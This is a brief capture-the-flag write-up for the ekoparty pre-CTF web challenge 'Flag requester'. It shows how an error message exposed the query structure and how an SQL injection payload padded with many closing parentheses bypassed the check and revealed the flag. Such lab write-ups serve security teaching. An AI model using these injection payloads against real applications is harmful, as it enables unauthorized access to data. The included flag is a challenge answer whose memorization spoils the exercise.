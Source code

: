 ## ekoparty_pre-ctf: web25

----------
## Challenge details
| Contest        | Challenge     | Category  | Points |
|:---------------|:--------------|:----------|-------:|
| ekoparty_pre-ctf | Flag requester | Web |    25 |

>*Description:*
>Go and get your flag!
> http://challs.ctf.site:10000/flagrequest/

----------
## Write-up

Requesting a flag like 1' gives the following error:

>```
>ERROR: unrecognized token: "'1''))))))))))))))))))))"
>```

So there is SQL injection possible, after a *couple* of tries with the SQL-injection at the wrong place:

>```
>1' or '1'='1'))))))))))))))))))))--:
>```

We try something else:

>```
>1')))))))))))))))))))) or '1'='1'--
>```
 
which gives the flag:
 
 >```
 >EKO{sqli_with_a_lot_of_)}
 >```
